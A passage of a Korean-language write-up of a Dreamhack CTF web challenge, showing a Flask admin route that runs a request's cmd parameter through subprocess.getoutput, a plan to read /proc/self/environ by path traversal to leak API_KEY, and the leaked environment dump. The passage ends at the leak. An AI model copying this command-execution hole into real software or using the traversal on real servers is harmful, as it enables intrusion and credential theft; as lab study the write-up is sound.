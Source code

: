 ### admin()

```python
@app.route('/admin', methods=['GET'])
@key_required
def admin():
    cmd = request.args.get('cmd', None)
    if cmd:
        result = subprocess.getoutput(cmd)
        return result
    else:
        return 'Error !'
```

사용자가 cmd로 전달한 값을 실행시켜 그 실행 결과를 리턴해준다. 이 admin()페이지에 접근하려면 key_required를 통과해야 하므로 API_KEY가 필요하다. 

즉 이 네 페이지를 종합하면 공격은 다음과 같이 이루어진다.

1. file 페이지에서 pathTraversal을 통해 환경변수값이 써져있는 /proc/self/environ을 읽어 API_KEY값을 알아낸다.
2. 알아낸 API_KEY값을 이용해 admin()페이지에서 flag 파일을 찾아 flag 값을 알아내면 된다.

# 공격

먼저 file 페이지에서 path 값에 원하는 값을 넣어 파일이 잘 출력되는지 알아보고자 했다.

![files.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/ad599941-e16d-4901-a9db-bc60160c3138/files.png)

다운로드 받은 파일을 보면 files 폴더에서 test.txt 파일이 있는 것을 확인할 수 있다.

![test파일.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/3b7fe076-8827-4e7b-a65b-d663edda06fe/test%ED%8C%8C%EC%9D%BC.png)

따라서 이 파일을 잘 읽어들이는지 테스트를 해보자.

![test.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/747b8bbb-a5c2-483c-a5f1-a2e6cf26ffb4/test.png)

```jsx
test
```

[`http://host3.dreamhack.games:10365/file?path=test.txt`](http://host3.dreamhack.games:10365/file?path=test.txt) 를 통해서 테스트 해본 결과 잘 출력되는 것을 확인할 수 있다. 이제 환경 변수를 출력해보자.

![api키 유출.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/41310f44-439f-49a6-8b9d-57094a3e62e9/api%ED%82%A4_%EC%9C%A0%EC%B6%9C.png)

```jsx
NGINX_WORKER_PROCESSES=1
UWSGI_CHEAPER=2
NGINX_MAX_UPLOAD=0
SUPERVISOR_GROUP_NAME=uwsgi
PATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
PYTHON_SETUPTOOLS_VERSION=57.5.0
UWSGI_PROCESSES=16
port=80
LANG=C.UTF-8TERM=xterm
SUPERVISOR_SERVER_URL=unix:///var/run/supervisor.sockcontainer=podmanPYTHON_VERSION=3.8.12
PYTHON_PIP_VERSION=21.2.4
SUPERVISOR_ENABLED=1
UWSGI_INI=/app/uwsgi.ini
API_KEY=d22cb18e86fc9e23996650150461c9f794ad3a4f
HOME=/root
STATIC_PATH=/app/static
GPG_KEY=E3FF2839C048B25C084DEBE9B26995E310250568
PYTHONPATH=/app
STATIC_URL=/static
SUPERVISOR_PROCESS_NAME=uwsgi
PYTHON_GET_PIP_SHA256=01249aa3e58ffb3e1686b7141b4e9aac4d398ef4ac3012ed9dff8dd9f685ffe0
```